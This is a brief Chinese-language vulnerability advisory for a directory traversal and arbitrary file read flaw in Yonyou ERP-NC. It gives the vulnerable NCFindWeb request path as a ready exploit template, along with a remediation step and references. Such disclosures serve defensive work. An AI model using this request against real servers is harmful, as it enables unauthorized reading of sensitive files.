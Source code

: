 ### 一 漏洞描述
用友ERP-NC 存在目录遍历和任意文件读取漏洞，攻击者可以通过该漏洞获取敏感文件信息。

时间: 2016-01-14

### 二 漏洞利用
```
<ip:port>/NCFindWeb?service=IPreAlertConfigService&filename=
```

### 三 漏洞修复
关闭接口（NCFindWeb?service=IPreAlertConfigService&filename=），若官方已更新版本，则更新到最新版

> 参考链接  
> https://blog.csdn.net/weixin_43847838/article/details/122229970  
> https://www.seebug.org/vuldb/ssvid-90416
